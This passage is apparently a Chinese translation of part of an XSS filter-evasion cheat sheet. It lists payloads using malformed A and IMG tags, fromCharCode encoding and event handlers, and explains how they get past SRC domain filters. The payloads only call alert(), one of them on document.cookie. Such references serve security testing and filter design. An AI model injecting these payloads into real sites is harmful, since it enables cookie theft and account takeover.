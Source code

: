 ### 2.8. 畸形的 A 标签

跳过 HREF 标签找到 XSS 的重点，由 David Cross 提交\~已在 Chrome 上验证

``` {.html}
<a onmouseover="alert(document.cookie)">xxs link</a>
```

此外 Chrome
经常帮你补全缺失的引号，如果在这方面遇到问题就直接省略引号，Chrome
会帮你补全在 URL 或脚本中缺少的引号。

``` {.html}
<a onmouseover="alert(document.cookie)">xxs link</a>
```

### 2.9. 畸形的 IMG 标签

最初由 Begeek 发现（短小精湛适用于所有浏览器），这个 XSS
攻击向量使用了不严格的渲染引擎，在 IMG
标签内创建被引号括起来的攻击向量。我猜测这种解析原来是为了兼容不规范的编码。这会让它更加难以正确的解析
HTML 标签：

``` {.html}
<IMG """><script>alert("XSS")</script>">
```

### 2.10. fromCharCode 函数

如果不允许任何形式的引号，你可以通过执行 JavaScript 里的 fromCharCode
函数来创建任何你需要的 XSS 攻击向量：

``` {.html}
<img src="javascript:alert(String.fromCharCode(88,83,83))" />
```

### 2.11. 使用默认 SRC 属性绕过 SRC 域名过滤器（有效）

这种方法可以绕过大多数 SRC 域名过滤器。将 JavaScript
代码插入事件方法同样适用于注入使用 elements 的任何 HTML 标签，例如 Form,
Iframe, Input, Embed
等等。它同样允许将事件替换为任何标签中可用的事件类型，例如 onblur,
onclick。下面会给出许多不同的可注入事件列表。由 David Cross
提交，Abdullah Hussam(@Abdulahhusam)编辑。

``` {.html}
<img src="#" onmouseover="alert('xxs')" />
```

### 2.12. 使用默认为空的 SRC 属性（无效）

``` {.html}
<IMG SRC= onmouseover="alert('xxs')">
```

### 2.13. 不使用 SRC 属性

